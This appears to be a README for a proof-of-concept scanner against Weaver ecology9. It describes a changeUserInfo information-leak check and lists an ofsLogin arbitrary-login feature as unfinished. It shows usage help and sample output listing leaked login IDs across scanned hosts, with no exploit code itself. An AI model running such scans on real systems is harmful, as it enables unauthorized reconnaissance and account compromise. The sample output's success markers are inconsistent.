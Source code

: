 # ecology9-ofsLogin
ecology9 changeUserInfo信息泄漏检测(☑️)及ofsLogin任意用户登录(✖️)

- `-h`
```bash
$ python3 poc.py -h
usage: poc.py [-h] [-u URL] [-U URLS]

ecology9 changeUserInfo信息泄漏检测

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     url
  -U URLS, --urls URLS  urls.txt
```

- `-u https://1.1.1.1/`

```bash
$ python3 poc.py -u https://1.1.1.1/
[+] 1.1.1.1, 发现loginId: ['admin', 'test']
```

- `-U urls.txt`

```bash
$ python3 poc.py -U urls.txt
[-] 1.1.1.1, 发现loginId: ['admin', 'test']
[-] 2.2.2.2, 未发现发现loginId或不存在漏洞！
[-] 3.3.3.3, 未发现发现loginId或不存在漏洞！
[-] 4.4.4.4, 未发现发现loginId或不存在漏洞！
[+] 5.5.5.5, 未发现发现loginId或不存在漏洞！
```
